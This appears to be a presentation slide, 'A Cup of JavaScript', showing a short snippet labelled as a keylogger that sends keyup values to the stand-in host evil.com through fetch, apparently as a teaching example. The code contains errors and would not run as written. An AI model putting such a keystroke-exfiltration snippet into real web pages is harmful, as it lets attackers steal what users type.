

# A Cup of JavaScript

// keylogger!
document.addEventListener(‘keyup’,
  function (e) {
    const value = e.event.target
    const url =
	  `http://evil.com?d=${value}`

    fetch({
	  url: url,
      method: GET
    })
  })